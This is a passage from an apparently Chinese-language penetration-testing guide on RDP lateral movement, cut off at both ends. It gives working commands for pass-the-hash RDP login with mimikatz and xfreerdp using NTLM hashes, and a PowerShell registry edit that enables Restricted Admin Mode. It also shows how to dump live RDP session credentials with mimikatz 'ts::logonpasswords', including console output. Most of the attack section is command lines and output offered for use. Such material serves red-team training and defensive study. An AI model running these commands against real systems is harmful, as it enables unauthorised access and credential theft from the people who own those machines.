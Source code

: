 此时使用该用户 hash 执行了 `/run:mstsc.exe /restrictedadmin` 命令，在弹出的远程桌面连接窗口，输入目标主机地址进行连接可直接连接上：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/830ee68e23c8d9ea.png)

如果目标的受限管理模式没有被启动，可以使用 mimikatz 进行 PTH：

```
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:172.22.1.2 /ntlm:10cf89a850fb1cdbe6bb432b859164c8 /run:powershell.exe"
```

此时，会弹出一个目标主机的 PowerShell 窗口，在窗口中执行命令修改目标注册表，以启用 Restricted Admin Mode：

```powershell
Enter-PSSession -Computer <Target> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

现在，就可以使用 NTLM hash 进行 RDP 登录了。

### Linux - FreeRDP

安装 [xfreerdp](https://github.com/FreeRDP/FreeRDP)：

```
sudo apt-get update
sudo apt-get install freerdp2-x11
```

命令：

```
xfreerdp /u:John@Domain.com /pth:eec9381b043f098b011be51622282027 /v:xx.xx.xx.xx /cert-ignore
```

效果：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/5ad43cccb324a24e.png)

## Dumping RDP Credentials

### 获取正在进行 RDP 连接的用户凭证

情况一：在获取到目标主机控制权后，发现有人正在 RDP 连接当前主机。

可以在当机上运行 mimikatz 从正在运行 RDP 会话中提取出当前用户的明文凭据：（在高版本的 windows 主机中并不好用）

```console
C:\Users\Administrator\Desktop> sc query termservice

SERVICE_NAME: termservice
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Windows\System32> .\mimikatz.exe 'privilege::debug' 'ts::logonpasswords' 'exit'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK
```
